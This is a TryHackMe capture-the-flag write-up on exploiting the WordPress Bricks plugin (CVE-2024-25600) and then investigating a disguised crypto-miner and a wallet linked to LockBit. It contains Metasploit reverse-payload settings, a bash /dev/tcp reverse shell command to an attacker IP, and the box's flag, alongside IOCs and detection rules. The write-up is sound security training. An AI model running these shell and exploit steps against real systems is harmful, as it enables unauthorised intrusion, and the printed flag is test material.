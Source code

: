 # TryHackMe — Ubuntu (LAMP) — Root / Crypto-Miner / LockBit

**Author:** `<yourhandle>`
**Target:** TryHackMe LAMP box (WordPress + KodExplorer + phpMyAdmin)
**Box summary:** Initial compromise via vulnerable Bricks WordPress plugin (v1.9.5). Got an unstable meterpreter shell and the first flag, then used a public CVE exploit to get a reliable reverse shell. Performed on-host forensics; found a disguised crypto-miner (`/lib/NetworkManager/nm-inet-dialog`) and wallet activity tracing to LockBit indicators.
**Date:** *(fill in)*

---

## TL;DR

* Recon: `nmap` + WordPress enumeration revealed Bricks plugin v1.9.5.
* Exploitation: used Metasploit to exploit Bricks (got a shell and the user flag), but shell was unreliable for post-exploitation.
* Achieved a stable shell by using the public exploit (CVE-2024-25600) from GitHub plus `ncat` + `bash` reverse.
* Local enumeration exposed a miner masquerading as a NetworkManager helper and a Bech32 BTC address. Tracing transfers showed ties to LockBit infrastructure.
* Collected flag: `THM{fl46_650c844110baced87e1606453b93f22a}`

---

## Box flag

```
cat /data/www/default/650c844110baced87e1606453b93f22a.txt
THM{fl46_650c844110baced87e1606453b93f22a}
```

---

## Timeline / What I did (concise)

1. `nmap` full port + service scan → found HTTP (WordPress) + webapps.
2. WordPress enumeration (WPScan / other WordPress enum tool) → Bricks plugin v1.9.5 identified.
3. `msfconsole` → used Bricks exploit to get an initial shell (meterpreter/command shell). Retrieved first flag from webroot. Meterpreter shell couldn't spawn a stable interactive reverse shell for further escalation.
4. Found public exploit repo for CVE-2024-25600 ([https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT](https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT)). Used the PoC to run a payload that executed a proper `bash` reverse shell to my `ncat` listener.
5. With a working interactive shell, enumerated system, discovered miner masquerading as `/lib/NetworkManager/nm-inet-dialog` and mined wallet addresses in `/lib/NetworkManager/inet.conf`. Decoded obfuscated string (CyberChef / base64 techniques) and traced the BTC address `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`. Wallet flow tracing pointed to LockBit-related addresses.

---

## Commands / Evidence (repro)

> Note: replace attacker IP/port with your own when reproducing.

Recon:

```bash
# full port scan + service/version
nmap -sC -sV -p- -T4 <target-ip>

# WordPress enumeration (example)
wpscan --url http://<target-ip>/ -e vp,tt,cb
# or other WP enumerator to detect plugin versions
```

Exploitation (Metasploit):

```bash
msfconsole
# find and use appropriate bricks exploit module (module path varies)
# example sequence:
use exploit/<path>/bricks_*    # find correct module in msf
set RHOSTS <target-ip>
set RPORT 80
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST <your-ip>
set LPORT 4444
run

# got a shell; grabbed first flag:
cat /data/www/default/650c844110baced87e1606453b93f22a.txt
# => THM{fl46_650c844110baced87e1606453b93f22a}
```

Metasploit shell was unstable for interactive work, so I used the public PoC:

CVE-2024-25600 public PoC (what I used):

```
https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/blob/main/README.md
# follow PoC instructions to get command exec on target
```

Spawn reliable reverse shell:

```bash
# on attacker
nc -lvnp 666

# on target (via the exploit command execution):
bash -c 'exec bash -i &>/dev/tcp/10.4.81.150/666 <&1'
# got a reliable interactive shell back (no meterpreter weirdness)
```

On-host enumeration & evidence:

```bash
# find suspicious processes / miners
ps aux | egrep -i 'xmrig|xmr|minerd|kinsing|kdevtmp|badr|inet|nm-inet|miner' | grep -v grep

# saw:
# root  3168  ... /lib/NetworkManager/nm-inet-dialog
# root  3169  ... /lib/NetworkManager/nm-inet-dialog

# inspect dir and suspicious config/log-like file
ls -l /lib/NetworkManager
cat /lib/NetworkManager/inet.conf

# inet.conf showed: repeated logs like "Status: Mining!", "Bitcoin Miner Thread Started", timestamps
# and a long encoded ID string. I decoded that with CyberChef: remove non-base64 chars -> base64 decode -> readable text.

# search filesystem for wallet-like strings
grep -RHoE 'bc1[a-z0-9]{10,62}|0x[a-fA-F0-9]{40}|4[A-Za-z0-9]{60,110}' /data /var/www /tmp /opt /home /usr/local /etc 2>/dev/null | head

# found:
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa

# validated on blockchain explorer and traced on-chain transfers to a larger receiver address:
32pTjxTNi7snk8sodrgfmdKao3DEn1nVJM
```

Process inspection (attempts; needed sudo):

```bash
# attempted to inspect /proc/<pid>, but sudo required TTY; use a PTY to escalate:
python3 -c 'import pty; pty.spawn("/bin/bash")'
cat /proc/3155/cmdline | tr '\0' ' '
readlink -f /proc/3155/exe
ls -l /proc/3155/fd
```

CyberChef decoding steps (short):

* Paste the encoded string.
* Use a small regex to remove non-base64 alphabet characters if the string contains non-b64 characters.
* Use "From Base64" to decode → result was readable and aided attribution.

---

## Findings / IOCs

* Malicious binary/process: `/lib/NetworkManager/nm-inet-dialog` (masquerading as NetworkManager binary)
* Log/config with miner output: `/lib/NetworkManager/inet.conf` (lots of `Status: Mining!`, `Bitcoin Miner Thread Started`)
* Wallet address (Bech32): `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`
* Higher-value receiver in chain: `32pTjxTNi7snk8sodrgfmdKao3DEn1nVJM`
* Persistence: suspicious `ubuntu.service` observed active in `systemctl` output
* Attribution: wallet tracing points to LockBit-related flows (probable LockBit involvement)

---

## Attribution notes

* Direct attribution from a single wallet is always probabilistic — I traced the wallet transfers and found links to addresses and activity associated with LockBit reporting. Combine this with other forensic evidence (ransom notes, exfil log files, file names, external C2 indicators) for higher confidence.

---

## Containment & cleanup (recommended)

> **If this were production:** isolate host from network and preserve images / copies of `/lib/NetworkManager/nm-inet-dialog` and `/lib/NetworkManager/inet.conf` for forensics.

Local remediation outline (needs root):

```bash
# gather evidence first
sudo mkdir -p /root/evidence/miner
sudo cp -a /lib/NetworkManager/inet.conf /root/evidence/miner/
sudo cp -a /lib/NetworkManager/nm-inet-dialog /root/evidence/miner/
sudo sha256sum /root/evidence/miner/* > /root/evidence/miner/checksums.sha256
sudo tar czvf /root/miner_evidence.tgz -C /root/evidence miner

# then stop processes & cleanup
sudo pkill -f 'nm-inet-dialog' || sudo kill $(pgrep -f 'nm-inet-dialog')
sudo systemctl stop ubuntu.service
sudo systemctl disable ubuntu.service
sudo rm -f /lib/NetworkManager/nm-inet-dialog
sudo rm -f /lib/NetworkManager/inet.conf
sudo systemctl daemon-reload
```

---

## Detection & SIEM rules (quick)

* Alert on processes named `nm-inet-dialog` or `nm-*` running from non-standard paths (e.g. `/lib/NetworkManager` on servers).
* Detect file content containing `Bitcoin Miner Thread Started`, `Status: Mining!`, or repetitive `Miner()` strings in log files.
* Regex for Bech32 wallet detection: `bc1[a-z0-9]{10,62}` — scan webroot, uploads, `/tmp` etc.
* Monitor for new/unknown systemd units (`ubuntu.service`) created recently.

---

## Lessons learned

* Use layered exploitation: initial metasploit foothold is useful for flags, but PoCs or different payload delivery may be needed to get a reliable interactive shell for forensic work.
* Attackers often hide miners under trusted service names — always verify binary locations, owners, and checksums against distro packages.
* On-chain tracing of found wallets can reveal larger flows; use blockchain explorers and OSINT to correlate.

---

## Appendix — Links & references

* CVE-2024-25600 PoC (used to gain stable shell): `https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT`
* CyberChef (useful for decoding obfuscated strings): `https://gchq.github.io/CyberChef/`
* Blockchain explorer (wallet validation): `https://www.blockchain.com/explorer/` (or any Bech32/Bitcoin explorer)

